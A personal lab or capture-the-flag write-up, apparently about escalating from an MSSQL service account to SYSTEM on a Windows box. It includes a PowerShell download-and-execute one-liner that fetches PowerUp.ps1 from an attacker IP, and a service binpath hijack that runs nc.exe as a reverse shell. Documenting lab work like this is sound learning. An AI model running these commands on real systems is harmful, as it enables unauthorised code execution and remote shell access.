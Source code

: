 I tried to get winpeas downloaded onto the system with certutil and a simple python http server but access was denied using certutil. Again I spun up a smb server and copied winpeas over that way.

![Pasted image 20230304103645](https://user-images.githubusercontent.com/71300144/222976122-dd8356fa-a526-4e3d-84ae-984965304267.png)

Ran Winpeas.bat but there is so much information, it is hard to sift through. I was getting lost in all the info. 

Anytime I run winpeas.bat on a windows system it turns my text red for the remainder. It is some setting in my preferences I have to figure out.

![Pasted image 20230304105518](https://user-images.githubusercontent.com/71300144/222976132-19032ba2-2f1a-4681-b065-f5eb41f57691.png)

I Decided to try Powerup since it spits out a little bit less information 

`echo IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.7:8081/PowerUp.ps1') | powershell -noprofile -`
- https://book.hacktricks.xyz/windows-hardening/basic-powershell-for-pentesters

I downloaded PowerUp this way because at first I tried to do it with the smbserver I have been using, but once I got the program on the windows machine it would not let me execute it. 

Using the command above lets me download and execute in one command.

![Pasted image 20230304110600](https://user-images.githubusercontent.com/71300144/222976154-cdbf7856-0c2f-4a24-9b30-64a91c10fb92.png)

Looking through PowerUp.ps1 was a lot easier than winpeas and immidiately some Administrator credentials stuck out. I thought if these credentials are valid I can just log into mssql service agian with the admin credentials, get a reverse shell calling with nc.exe and have NT Authority/Systme.

![Pasted image 20230304110737](https://user-images.githubusercontent.com/71300144/222976202-22519654-46da-4285-b4dc-9bf13e06b2ef.png)

Unfortunately when you log in with these credentials which are valid you still only get the mssql-svc account, so this was a deaed end.

![Pasted image 20230304111901](https://user-images.githubusercontent.com/71300144/222976214-8280169c-bf60-48ba-984e-353a96951370.png)

I decided to give psexec.py a quick try but this did not work either. I kept getting a connection refused response. 

![Pasted image 20230304112108](https://user-images.githubusercontent.com/71300144/222976231-ebb730b1-181a-4298-bf91-deb375d0c483.png)

Going back to PowerUp and looking at the output there is a service (UsoSvc) that is vulnerable due to an unquoted service path and ran as system on startup!

![Pasted image 20230304113023](https://user-images.githubusercontent.com/71300144/222976261-bc6d959b-4da5-4ecb-a947-f2cdb7364733.png)

I stopped the service and used the following command to change the service path.

`sc config usoSVC binpath="C:\Users\mssql-svc\Downloads\nc.exe 10.10.14.7 9002 -d cmd.exe"`

I almost forgot to mention that I had to download nc.exe on the machine again because it seems that the system removed it from the folder at some point. I downloaded it in the mssql-svc downloads forlder.

The next step was to query the service to see if the path I set was actually successfully set.
